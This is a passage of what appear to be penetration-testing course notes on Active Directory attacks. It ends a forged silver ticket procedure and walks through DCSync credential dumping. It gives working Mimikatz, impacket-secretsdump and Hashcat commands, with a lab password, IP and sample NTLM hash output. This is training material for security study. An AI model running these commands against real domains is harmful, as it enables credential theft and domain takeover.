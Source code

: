 	- `/rc4:`: NTLM hash of the SPN
	- `/ptt`: option to allow injection of the forged ticket into the memory of the machine we execute the command on
	- `/user:`: the user to be set in the forged ticket (could be any user since we can set the permissions and groups ourselves)
9. Exit Mimikatz:
   `exit`
10. Check that the ticket is ready to use in memory:
    `klist`
11. Verify access:
    `iwr -UseDefaultCredentials http://web04`
   
## Domain Controller Synchronization

Purpose: Obtain credentials of a domain user

The Directory Replication Service (DRS) Remote Protocol uses replication to synchronize redundant domain controllers. A domain controller may request an update for a specific object, like an account, using the IDL_DRSGetNCChanges API.

Luckily for us, the domain controller receiving a request for an update does not check whether the request came from a known domain controller. Instead, it only verifies that the associated SID has appropriate privileges. If we attempt to issue a rogue update request to a domain controller from a user with certain rights it will succeed.

Prerequisite:
- access to user with the rights *Replicating Directory Changes*, *Replicating Directory Changes All*, and *Replicating Directory Changes in Filtered Set* 
	- By default, members of the *Domain Admins*, *Enterprise Admins*, and *Administrators* groups have these rights assigned.

### Tool: Mimikatz on Windows (domain-joined)
1. Connect to domain-joined Windows machine as user with the necessary rights
2. Run Mimikatz:
   `.\mimikatz.exe`
3. Perform DC Sync attack:
   `lsadump::dcsync /user:corp\dave`
	- `/user:`: provide domain username for which we want to obtain credentials
4. From the output of above, copy the NTLM hash and store it on our Kali. On Kali, run Hashcat to crack the hash:
   `hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

### Tool: impacket on Kali (not domain joined)
1. On Kali, perform DC Sync attack:
   `impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70`
	- `-just-dc-user dave`: target username
	- `corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@192.168.50.70`: credentials of a user with the required rights, as well as the IP of the domain controller in the format **domain/user:password@ip**
2. In the output, can find
   `[*] Using the DRSUAPI method to get NTDS.DIT secrets dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::`
   The NTLM hash is the final section



